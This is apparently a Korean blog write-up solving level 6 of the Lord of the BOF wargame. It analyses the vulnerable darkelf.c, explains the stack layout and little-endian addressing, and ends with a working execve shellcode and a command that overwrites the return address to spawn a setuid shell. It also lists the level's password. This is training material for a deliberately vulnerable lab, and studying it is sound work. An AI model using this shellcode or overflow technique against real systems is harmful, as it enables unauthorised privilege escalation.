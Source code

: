 ```yaml
---
title: BOF/ LOB-level6(wolfman)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 6(wolfman)
**ID : wolfman**  
**PASSWD : love eyuna**         

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level6/1.PNG)  
사용자 darkelf의 권한의 darkelf파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 darkelf의 권한으로 파일을 실행할 수 있다.**  
**darkelf파일이 쉘을 실행시키도록 한다면 사용자 darkelf의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkelf
        - egghunter + buffer hunter + check length of argv[1]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
{% endhighlight %}  

**darkelf.c**

### 소스분석  
1. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
2. 환경변수를 memset으로 초기화  
**환경변수를 이용한 공격 불가**  
3. argv[1][47]의 값이 \xbf가 아닌경우 "stack is still your friend" 출력 후 프로그램 종료  
**RTL기법 사용 불가 What is RTL? - [LOB(level13)](https://limjunho.github.io/2020/03/14/LOB-level13(darkknight).html)**  
4. argv[1]의 길이가 48보다 큰 경우 "argument is too long!"을 출력 후 프로그램 종료  
**RET뒤에 NOP과 ShellCode를 삽입하는 공격 불가**  
5. main에 전달받은 인자 argv[1]을 buffer에 복사하여 출력(argv[0]은 파일명)  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 40Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  
6. memset으로 buffer를 모두 0으로 초기화  

### Solution  
**[LOB(level4)](https://limjunho.github.io/2019/11/03/LOB-level4(goblin).html)와 같이 argv[2]를 이용하는 방법이 있다.**  
**이 포스팅에서는 buffer는 초기화하지만 argv는 초기화 하지 않는 취약점을 이용해 풀이**  

#### level4에서 사용한 쉘코드  
**\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**
이전에 사용하던 41Byte 쉘코드는 buffer의 크기가 작아 사용하기 어렵기 때문에 25Byte 쉘코드를 사용  

**buffer over-flow를 이용하기 위해서는 프로그램 Stack의 구조를 알아야 한다.**  

스택구조|
---|
buffer(40Byte)|
sfp(4Byte)|
ret(4Byte)| 

**SFP(Stack frame pointer) - 이전 함수의 EBP주소를 담고 있다.**  
(EBP - 스택의 가장 바닥을 가리키는 포인터)  
**RET(Return Address) - 함수가 종료시 return될 주소**  

#### 기존 darkelf.c를 복사하여 argv[1]의 주소를 출력하는 코드를 추가.   
**buffer에 삽입한 쉘코드는 초기화되지만 argv[1]에는 남아있기 때문에 이를 이용**   

{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkelf
        - egghunter + buffer hunter + check length of argv[1]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
        printf("%p\n", argv[1]);

        // buffer hunter
        memset(buffer, 0, 40);
}
{% endhighlight %}  
**darkelf.c를 복사하여 소스 추가 -> printf("%p\n", argv[1]);**  


![그림2](/assets/LOB/level6/2.PNG)  
argv[1]의 주소 -> 0xbffffc3d

### Attack  

argv[1]의 주소와 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./orc [ShellCode] + [dummy] + [argv(1)주소]**의 형태로 공격.  
**이 때 ShellCode + dummy값의 길이는 buffer의 길이 + sfp(4byte)만큼 즉 44Byte여야 한다.**
**또한 RET에 덮을 NOP의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림4](/assets/LOB/level6/3.PNG)  
공격 성공.   

**페이로드**  
```bash
$ ./darkelf `python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80' + 'A'*19 + '\x3d\xfc\xff\xbf'"`
```